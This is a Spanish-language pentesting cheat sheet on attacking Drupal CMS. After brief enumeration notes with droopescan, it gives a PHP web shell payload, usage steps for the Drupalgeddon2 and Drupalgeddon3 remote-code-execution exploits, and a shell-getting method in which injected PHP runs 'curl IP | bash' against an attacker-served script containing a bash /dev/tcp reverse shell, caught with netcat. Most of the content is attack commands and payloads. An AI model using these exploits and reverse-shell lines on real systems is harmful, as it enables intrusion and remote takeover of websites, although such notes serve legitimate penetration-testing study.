# Drupal 

Tags: #Drupal #CMS #Ñ 

## Enumeración de gestores de contenido (CMS) – Drupal

Drupal ofrece un alto grado de personalización y escalabilidad, lo que lo convierte en una opción popular para sitios web complejos y grandes. Drupal se utiliza en una amplia gama de sitios web, desde blogs personales hasta sitios web gubernamentales y empresariales. Es altamente flexible y cuenta con una amplia variedad de módulos y herramientas que permiten a los usuarios personalizar su sitio web para satisfacer sus necesidades específicas.

Una de las herramientas que veremos en esta clase para enumerar un Drupal es la herramienta **droopescan**. Droopescan es una herramienta de escaneo de seguridad especializada en la identificación de versiones de Drupal y sus módulos, y en la detección de vulnerabilidades conocidas en ellos. La herramienta realiza un escaneo exhaustivo del sitio web para encontrar versiones de Drupal instaladas, módulos activos y vulnerabilidades conocidas, lo que ayuda a los administradores de sistemas y desarrolladores a identificar y solucionar los problemas de seguridad en sus sitios web.

Con esta herramienta, se pueden llevar a cabo análisis de seguridad en sitios web basados en Drupal, lo que puede ayudar a prevenir posibles ataques y problemas de seguridad en el futuro.

* [Drupal](https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2018-7600)

## Rutas típicas de Drupal en la web 

```bash 
/CHANGELOG.txt         # Muestra la versión e info de Drupal 
```

## Drupal Enumeración 

Esta herramienta además de enumerar un servidor Drupal

-   [Droopescan](https://github.com/SamJoan/droopescan)

```bash 
❯ droopescan scan drupal --url https://IP/
```

## Exploit PHP

```bash 
❯ Drupal 7.x Module Services - RCE

# Modificar los siguientes parametros dentro del script de PHP
1. URL
2. Verificar la ruta de 'rest' o 'rest_endpoint' en 'endpoint_path'
3. Colocar el payload de la siguiente manera en 'data' y cambiar el nombre al archivo de subida 'pwned.php':

	'<?php echo "<pre>" . shell_exec($_REQUEST[\'cmd\']) . "</pre>"; ?>' 
 
❯ php drupal_exploit.php             # Ejecutar el exploit 
❯ http://IP/pwned.php?cmd=whoami     # Ejecutar comandos en la web y generar una revershell 
```

## Drupalgeddon2 - RCE 

```bash 
# Funciona para las versiones 8.5.x < 8.5.1 / 8.4.x < 8.4.6 / 8.x < 8.3.9 / 7.x < 7.58 / < 6.x

# Instalar 
❯ gem install highline 

❯ ruby drupalgeddon2.rb http://IP     # Ejecutar el exploit para crear una shell 
```

## Drupalgeddon3 - RCE

```bash 
❯ git clone https://github.com/oways/SA-CORE-2018-004/tree/master      # Clonar el repositorio 

❯ python3 drupalgeddon3.py http://IP "SESSg135=gq34tw34g" 1 "whoami"

	# SESS = Es la 'session_name' y el 'session_id' obtenidas del drupalgeddon2 o al iniciar sessión con la cuenta del admin
	# 1 = Es un numero de nodo existente dentro de la web, este se obtiene dentro de la web en 'Content > Find Content' y al colocar el cursor encima de algun recurso mostrará un numero 


Nota:
	1. El script te ayudará a ejecutar comandos, por lo que se puede crear una revershell
```

## Obtener una Shell en Drupal 

```bash 
1. Dentro del CMS, crear un articulo y en el cuerpo escribir codigo php y para ejecutar el código se debe dar click en 'Preview'. 

	<?php 
		system("curl IP | bash ");
	?>


2. Se debe compartir y crear el archivo del recurso en la maquina Kali de la siguiente manera:
❯ python3 -m http.server 80

❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/IP/443 0>&1

❯ nc -nlvp 443    # Escuchar en el puerto para recibir la revershell 


Nota:
	1. Si en el articulo no sale la opción de 'PHP Code' se puede activar en 'Modules > Filter PHP' para que interprete el codigo de la revershell. 
```